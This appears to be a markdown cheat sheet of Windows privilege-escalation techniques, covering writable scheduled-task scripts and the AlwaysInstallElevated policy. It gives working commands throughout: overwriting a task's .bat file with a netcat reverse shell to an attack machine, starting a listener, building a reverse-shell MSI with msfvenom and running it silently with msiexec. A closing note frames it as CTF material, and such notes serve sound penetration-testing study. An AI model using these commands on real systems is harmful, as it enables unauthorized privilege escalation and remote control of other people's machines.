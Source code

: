 # Quick misconfiguration wins

## Attack tree

```text
1 Escalate through misconfigurations
    1.1 Scheduled tasks (OR)
    1.2 AlwaysInstallElevated
```

## Examples

### Scheduled tasks

1. List scheduled tasks:

```text
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
...
```

The `Task To Run` is of interest. If the current user can modify or overwrite the executable, we can control what 
gets executed by the `taskusr1` user, giving a simple privilege escalation.

2. Check the file permissions on the executable:

```text
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

In this case, the `BUILTIN\Users` group has full access (F) over the task's binary. This means we can modify the 
`.bat` file and insert any payload.

Change the `.bat` file to spawn a reverse shell:

```text
C:\> echo c:\tools\nc64.exe -e cmd.exe <IP address attack machine> 4444 > C:\tasks\schtask.bat
```

And start a listener on the attack machine:

```text
nc -lvp 4444
```

The next time the scheduled task runs, you should receive the reverse shell with `taskusr1` privileges. Depending on 
when the task is scheduled to run, this may take a looong time. 

### AlwaysInstallElevated

1. Query the registry values:

```text
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Both should be set for this exploitation to work.

2. Generate an evil `.msi` file using `msfvenom`:

```text
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP address attack machine> LPORT=<port-number> -f msi -o evil.msi
```
Run the Metasploit Handler module configured accordingly.

3. Transfer the file to `C:\Windows\Temp` on the target machine. 
4. Run the installer with the command below and receive the reverse shell:

```text
C:\> msiexec /quiet /qn /i C:\Windows\Temp\evil.msi
```

## Notes

These belong more to the realm of CTF events rather than real world scenarios.

* Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or 
it's using a binary you can modify.
* Windows installer files (`.msi` files) are used to install applications on the system. They usually run with the 
privilege level of the user that starts it. And they can be configured to run with higher privileges from any 
user account (even unprivileged ones). This could potentially allow for generating a malicious `.msi` file that 
would run with admin privileges.